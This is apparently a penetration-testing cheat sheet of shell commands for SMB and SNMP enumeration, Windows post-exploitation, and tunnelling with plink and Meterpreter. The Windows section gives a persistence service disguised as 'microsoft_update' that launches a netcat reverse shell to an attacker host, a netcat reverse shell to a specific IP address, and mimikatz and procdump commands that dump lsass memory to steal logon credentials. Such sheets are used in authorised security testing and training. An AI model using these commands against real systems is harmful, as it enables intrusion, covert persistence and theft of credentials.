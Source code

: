 ## Samba Enumeration
{% highlight bash %}
nmblookup -A target
smbclient //MOUNT/share -I target -N
rpcclient -U "" target
enum4linux target
{% endhighlight %}

### SNMP Enumeration
{% highlight bash %}
snmpget -v 1 -c public IP 
snmpwalk -v 1 -c public IP
snmpbulkwalk -v2c -c public -Cn0 -Cr10 IP
{% endhighlight %}

### Windows Useful cmds
{% highlight bash %}
net localgroup Users
net localgroup Administrators
search dir/s *.doc
system("start cmd.exe /k $cmd")
sc create microsoft_update binpath="cmd /K start c:\nc.exe -d ip-of-hacker port -e cmd.exe" start= auto error= ignore
/c C:\nc.exe -e c:\windows\system32\cmd.exe -vv 23.92.17.103 7779
mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords"
Procdump.exe -accepteula -ma lsass.exe lsass.dmp
mimikatz.exe "sekurlsa::minidump lsass.dmp" "log" "sekurlsa::logonpasswords"
C:\temp\procdump.exe -accepteula -ma lsass.exe lsass.dmp For 32 bits
C:\temp\procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp For 64 bits
{% endhighlight %}

### PuTTY Link tunnel
{% highlight bash %}
Forward remote port to local address
plink.exe -P 22 -l root -pw "1234" -R 445:127.0.0.1:445 IP
{% endhighlight %}

### Meterpreter portfwd
{% highlight bash %}
# https://www.offensive-security.com/metasploit-unleashed/portfwd/
# forward remote port to local address
meterpreter > portfwd add –l 3389 –p 3389 –r 172.16.194.141
kali > rdesktop 127.0.0.1:3389
{% endhighlight %}
